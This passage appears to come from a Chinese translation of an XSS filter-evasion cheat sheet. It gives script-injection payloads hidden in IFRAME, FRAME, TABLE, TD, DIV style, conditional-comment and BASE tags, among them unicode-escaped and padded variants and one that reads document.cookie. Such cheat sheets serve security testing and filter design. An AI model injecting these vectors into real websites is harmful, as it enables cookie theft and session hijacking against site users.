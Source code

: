 <pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IFRAME</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">#</span> <span class="hljs-attr">onmouseover</span>=<span class="hljs-string">"alert(document.cookie)"</span>&gt;</span><span class="hljs-tag">&lt;/<span class="hljs-name">IFRAME</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t67"></a><a name="t67"></a>FRAME</h2>
<p>Frames有一些列相同的问题像 iframes</p>
<pre><code class="hljs javascript">&lt;FRAMESET&gt;<span class="xml"><span class="hljs-tag">&lt;<span class="hljs-name">FRAME</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">"javascript:alert('XSS');"</span>&gt;</span><span class="hljs-tag">&lt;/<span class="hljs-name">FRAMESET</span>&gt;</span></span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t68"></a><a name="t68"></a>TABLE</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">TABLE</span> <span class="hljs-attr">BACKGROUND</span>=<span class="hljs-string">"javascript:alert('XSS')"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t69"></a><a name="t69"></a>TD</h2>
<p>像上面一样，TD也可以通过 BACKGROUND 来包含javascript xss向量</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">TABLE</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-name">TD</span> <span class="hljs-attr">BACKGROUND</span>=<span class="hljs-string">"javascript:alert('XSS')"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t70"></a><a name="t70"></a>DIV background-image</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">DIV</span> <span class="hljs-attr">STYLE</span>=<span class="hljs-string">"background-image: url(javascript:alert('XSS'))"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t71"></a><a name="t71"></a>使用 unicoded编码xss利用代码的DIV background-image</h2>
<p>这是被轻微的修改去混淆 url 参数。他是最早被发现被 Renaud Lifchitz用于攻击hotmail。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">DIV</span> <span class="hljs-attr">STYLE</span>=<span class="hljs-string">"background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t72"></a><a name="t72"></a>附加额外字符的DIV background-image</h2>
<p>Rnaske开发了一个XSS fuzzer去探测可以在开括号和javascript之间加入哪些额外字符在 IE和安全模式下的 Netscape 8.1。都是一些十进制的字符，但是你也可以用十六进制来填充。（下面这些编码字符可以被使用：1-32, 34, 39, 160, 8192-8.13, 12288, 65279）</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">DIV</span> <span class="hljs-attr">STYLE</span>=<span class="hljs-string">"background-image: url(&amp;#1;javascript:alert('XSS'))"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t73"></a><a name="t73"></a>DIV expression</h2>
<p>它的一个变体是更加有效的去绕过实际的xss过滤器是在冒号和表达式之间添加换行符。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">DIV</span> <span class="hljs-attr">STYLE</span>=<span class="hljs-string">"width: expression(alert('XSS'));"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t74"></a><a name="t74"></a>html条件选择注释块</h2>
<p>只能工作在IE5.0 以及更新版或是使用了ie渲染引擎的Netscape 8.1 。 一些网站认为任何包裹在注释中的内容都是安全的，因此并不会被移除。这将允许我们的xss向量。或者系统可能通过添加注释对某些内容去试图无害的渲染它。如我们所见，这有时并不起作用。</p>
<pre><code class="hljs xml"><ol class="hljs-ln"><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="1"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line"><span class="hljs-comment"><span class="hljs-comment">&lt;!--[if gte IE 4]&gt;</span></span></div></div></li><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="2"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line"><span class="hljs-comment">&lt;SCRIPT&gt;alert('XSS');&lt;/SCRIPT&gt;</span></div></div></li><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="3"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line"><span class="hljs-comment"> &lt;![endif]--&gt;</span></div></div></li></ol></code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t75"></a><a name="t75"></a>BASE标签</h2>
<p>工作ie或是使用了安全模块的Netscape 8.1，你需要使用 "//" 斜体文本去避免javascript错误。这需要当前网站使用相对路径（例如images/image.jpg）而不是绝对路径。如果路径开始用一个斜杠（例如"/images/image.jpg"），你需要去掉xss向量中的一个斜杠（只有在两个斜杠的情况下才会起到注释作用）</p>
